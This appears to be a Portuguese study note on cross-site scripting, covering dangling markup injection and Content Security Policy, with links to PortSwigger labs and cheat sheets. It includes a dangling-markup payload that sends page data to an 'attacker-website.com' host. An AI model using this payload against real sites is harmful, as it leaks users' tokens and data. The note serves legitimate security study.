 Por exemplo, suponha que um input não esteja seguro e que não filtra caracteres como `>` ou `"`. Isso poderia facilmente ser quebrado usando a aspas e fechando com a tag = `">`. Se existir um bloqueio para ataques comuns de XSS um teste para entregar o XSS é com um ataque de injeção de marcação pendurada (dangling markup) usando um payload como:

```html
"><img src='//attacker-website.com?
```

Observe que o atributo `src` não é fechado (dangling). Quando um navegador analisa a resposta, ele aguarda até encontrar uma aspa simples para encerrar o atributo. Assim, tudo até esse caractere será tratado como parte da URL e será enviado para o servidor do invasor dentro da cadeia de caracteres de consulta da URL. Isso pode dar ao invasor dados da requisição como tokens.

Lab: [[XSS - Reflected XSS protected by CSP with dangling markup]]

## Content security policy (CSP)

O CSP é um mecanismo do navegador para mitigar XSS. Ele restringe os recursos, como scripts e imagens, que a página pode carregar e também se uma página pode ser enquadrada por outras páginas com `iframe` por exemplo.

Para saber se a aplicação faz uso deste mecanismo, basta verificar se  a resposta HTTP contém o header `Content-Security-Policy`.

Lab: [[XSS - Reflected XSS protected by CSP with dangling markup]]
Lab: [[XSS - Reflected XSS protected by CSP, with bypass]]

## Cheat sheet

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
## Referência

https://portswigger.net/web-security/cross-site-scripting
